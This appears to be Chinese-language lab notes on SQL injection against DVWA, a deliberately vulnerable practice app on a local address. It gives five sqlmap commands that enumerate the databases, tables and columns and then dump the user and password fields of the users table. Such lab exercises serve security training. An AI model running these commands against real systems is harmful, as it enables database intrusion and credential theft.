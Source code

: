 发现危险注入的地方

![image-20250219144306784](../../_media/image-20250219144306784.png)





爆库

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" --dbs
```



爆表

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa --tables
```



爆列

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users --columns
```



爆用户字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C user --dump
```



爆密码字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C password --dump
```
